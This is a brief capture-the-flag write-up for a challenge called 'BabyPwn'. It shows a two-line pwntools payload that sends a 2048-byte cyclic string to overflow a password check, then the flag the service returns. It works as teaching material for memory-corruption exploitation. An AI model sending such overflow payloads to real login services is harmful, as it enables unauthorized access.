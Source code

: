 
## BabyPwn
### Description

> easy as ABC.
>
> `nc 20yjtzrx50hpypicbajmro9dy.ctf.p0wnhub.com 1337`
>
> Authors: PsycoR, RETTILA, G0D3L, Likkrid, zpycho

### Attachment

no attachment 

### Analysis

When trying to input something, it said  `Login failed!`

``` 
aaaaaaaaaaaaaaaaaaaaa

Checking password...

Login failed!
```

Maybe the variable of `checking password` can be overwritten while our input string is long enough.

### Solution

```python
payload = cyclic(2048)
sl(payload)
```

Generate a long string and input it to get flag.

```
//...
Checking password...

Successfully logged in!
HZVIII{l1tt13_b4by_0verf1l0w}
```

